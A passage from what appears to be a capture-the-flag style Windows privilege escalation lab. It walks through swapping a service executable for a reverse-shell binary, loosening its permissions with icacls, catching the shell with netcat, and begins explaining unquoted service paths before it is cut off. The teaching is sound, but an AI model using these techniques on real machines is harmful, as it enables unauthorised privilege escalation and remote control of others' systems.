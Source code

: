 ```cmd
C:\> cd C:\PROGRA~2\SYSTEM~1\

C:\PROGRA~2\SYSTEM~1> move WService.exe WService.exe.bkp
    1 file(s) moved.

C:\PROGRA~2\SYSTEM~1> move C:\Users\thm-unpriv\rev-svc.exe WService.exe
    1 file(s) moved.

C:\PROGRA~2\SYSTEM~1> icacls WService.exe /grant Everyone:F
    Successfully processed 1 files.
```

We start a reverse listener on our attacker machine:

```bash
user@attackerpc$ nc -lvp 4445
```

And finally, restart the service. While in a normal scenario, you would likely have to wait for a service restart, you have been assigned privileges to restart the service yourself to save you some time. Use the following commands from a `cmd.exe` command prompt:

```cmd
C:\> sc stop windowsscheduler
C:\> sc start windowsscheduler
```

Note: PowerShell has `sc` as an alias to `Set-Content`, therefore you need to use `sc.exe` in order to control services with PowerShell this way.

As a result, you'll get a reverse shell with `svcusr1` privileges:

```bash
user@attackerpc$ nc -lvp 4445
Listening on 0.0.0.0 4445
Connection received on 10.10.175.90 50649
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
wprivesc1\svcusr1
```

Go to `svcusr1` desktop to retrieve a flag. Don't forget to input the flag at the end of this task.

## Unquoted Service Paths

When we can't directly write into service executables as before, there might still be a chance to force a service into running arbitrary executables by using a rather obscure feature.

When working with Windows services, a very particular behavior occurs when the service is configured to point to an "unquoted" executable. By unquoted, we mean that the path of the associated executable isn't properly quoted to account for spaces on the command.

As an example, let's look at the difference between two services (these services are used as examples only and might not be available on your machine). The first service will use a proper quotation so that the SCM knows without a doubt that it has to execute the binary file pointed by `"C:\Program Files\RealVNC\VNC Server\vncserver.exe"`, followed by the given parameters:
